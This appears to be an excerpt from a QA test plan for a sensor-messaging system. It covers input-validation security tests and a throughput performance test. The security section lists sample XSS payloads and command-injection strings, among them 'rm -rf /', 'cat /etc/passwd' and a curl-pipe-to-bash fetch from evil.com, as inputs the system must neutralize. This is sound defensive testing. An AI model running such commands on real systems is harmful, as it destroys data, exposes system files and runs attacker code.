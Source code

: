**Objective:** Verify comprehensive input validation and sanitization

**Test Categories:**

**XSS Prevention:**
```
<script>alert('XSS')</script>
javascript:alert('XSS')
<img src=x onerror=alert('XSS')>
```

**Command Injection:**
```
sensor_001; rm -rf /
sensor_001 && cat /etc/passwd
$(curl evil.com/script.sh | bash)
```

**Buffer Overflow:**
- 10MB JSON payload
- Extremely long strings
- Deeply nested objects

**Pass Criteria:**
- All malicious inputs neutralized
- System remains stable
- No code execution occurs
- Appropriate error messages returned

---

### 5.7 Performance Test Cases

#### Test Case TC-PERF-001: Throughput Testing
**Test Case ID:** TC-PERF-001  
**Test Suite:** Performance Tests  
**Priority:** High  
**Test Type:** Performance  

**Objective:** Measure system throughput under sustained load

**Test Configuration:**
- Load pattern: Sustained load
- Duration: 10 minutes
- Concurrent users: 100
- Message rate: 10 msg/sec per user

**Performance Targets:**
| Metric | Target | Pass Threshold | Fail Threshold |
|--------|--------|----------------|----------------|
| Throughput | 1000 msg/sec | >800 msg/sec | <600 msg/sec |
| Avg Response Time | 200ms | <300ms | >500ms |
| Error Rate | 0% | <1% | >5% |
| CPU Usage | 70% | <85% | >95% |
